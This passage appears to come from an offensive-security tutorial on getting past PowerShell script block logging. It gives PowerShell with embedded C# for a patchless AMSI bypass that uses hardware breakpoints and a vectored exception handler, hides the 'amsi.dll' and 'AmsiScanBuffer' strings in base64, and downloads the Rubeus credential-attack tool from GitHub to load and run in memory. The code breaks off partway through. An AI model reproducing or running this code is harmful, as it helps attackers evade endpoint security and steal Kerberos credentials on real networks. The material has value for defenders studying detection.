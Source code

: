 Larger organizations often deploy a SIEM such as Splunk and enable script block logging. Script block logging captures a wide array of activities, including the execution of cmdlets, functions, expressions, pipeline operations, variable assignments, control flow statements, error handling, interactive sessions, external scripts, remote PowerShell sessions, scheduled tasks, event handlers, and module loading. These activities are logged if they are enclosed within curly braces {}. This effectively renders the AMSI bypass script and the invoke-mimikatz script ineffective.

It's important to note that if an organization has Splunk and the capability to perform automated monitoring of PowerShell code within script blocks, they likely have an EDR solution enabled as well.



There is indeed a workaround for script block logging, which involves utilizing Add-Type and embedding C# code blocks. To demonstrate this technique, I'll be using an In-Process Patchless AMSI Bypass. This process entails setting a hardware breakpoint on the AmsiScanBuffer function, employing a vectored exception handler to alter AMSI scan results, and modifying the CPU's debug registers to control the execution flow.

I've converted this implementation from [https://gist.githubusercontent.com/susMdT/360c64c842583f8732cc1c98a60bfd9e/raw/fd9a00317decf8afd647e0f770fec5ba6e2f89f5/Program.cs](https://gist.githubusercontent.com/susMdT/360c64c842583f8732cc1c98a60bfd9e/raw/fd9a00317decf8afd647e0f770fec5ba6e2f89f5/Program.cs) into a PowerShell script, along with adding a few obfuscation techniques. Here's the code:


```powershell
$cs = @'
using System;
using System.Net;
using System.Reflection;
using System.Text;
using System.Runtime.InteropServices;

namespace Test
{
    public class Program
    {
        static IntPtr baser = WinAPI.LoadLibrary(Encoding.UTF8.GetString(Convert.FromBase64String("YW1zaS5kbGw=")));
        static IntPtr addr = WinAPI.GetProcAddress(baser, Encoding.UTF8.GetString(Convert.FromBase64String("QW1zaVNjYW5CdWZmZXI=")));
        // Allocate memory for the CONTEXT64 structure
        static IntPtr pCtx = Marshal.AllocHGlobal(Marshal.SizeOf<WinAPI.CONTEXT64>());

        public static void Main()
        {
            SetupBypass();

            // Configure security protocol and load external assembly
            ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
            var sb = Assembly.Load(new WebClient().DownloadData("https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe"));
            sb.EntryPoint.Invoke(null, new object[] { new string[] { "" } });
            Console.WriteLine("Assembly FullName: " + sb.FullName);
        }

        // Setup the Vectored Exception Handler for bypass
        static void SetupBypass()
        {
            // Create and initialize CONTEXT64 structure
            WinAPI.CONTEXT64 ctx = new WinAPI.CONTEXT64 { ContextFlags = WinAPI.CONTEXT64_FLAGS.CONTEXT64_ALL };

            // Get the method information for the Handler method
            MethodInfo method = typeof(Program).GetMethod("Handler", BindingFlags.Static | BindingFlags.Public);
            IntPtr hExHandler = WinAPI.AddVectoredExceptionHandler(1, method.MethodHandle.GetFunctionPointer());
```